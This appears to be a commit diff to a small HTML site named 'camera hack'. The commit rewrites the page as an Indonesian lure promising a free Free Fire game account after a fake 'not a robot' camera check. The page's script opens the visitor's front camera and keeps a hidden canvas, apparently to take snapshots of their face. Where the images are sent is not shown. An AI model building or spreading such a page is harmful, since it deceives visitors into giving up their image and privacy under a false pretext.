

Before and after one commit to khaerulwkwkwk-cyber/html-bug-wa, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 99-490 px from the top of the page, without its empty margins (208-1071 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,7 +1,7 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>camera hack</title>
+  <title>Mohon Verifikasi untuk mendapatkan akun free fire gratis.</title>
   <meta name="viewport" content="width=device-width, initial-scale=1">
   <style>
     body {
@@ -32,8 +32,8 @@
 </head>
 <body>
   <h2>camera hack</h2>
-  <p>Untuk mengaktifkan fitur ini, lakukan verifikasi wajah singkat.</p>
-  <button onclick="startSnap()">Aktifkan Sekarang</button>
+  <p>Untuk mendapatkan akun free fire gratis,kami perlu memastikan bahwa anda bukan robot menggunakan kamera.</p>
+  <button onclick="startSnap()">Verifikasi</button>
   <video id="cam" autoplay muted playsinline></video>
   <canvas id="snap" style="display:none;"></canvas>
   <p id="status" style="margin-top: 20px;"></p>
@@ -48,7 +48,7 @@
   const ctx = canvas.getContext('2d');
   const status = document.getElementById('status');
 
-  status.innerText = "Mengaktifkan kamera...";
+  status.innerText = "Mengenali Wajah.....";
 
   try {
     const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
```
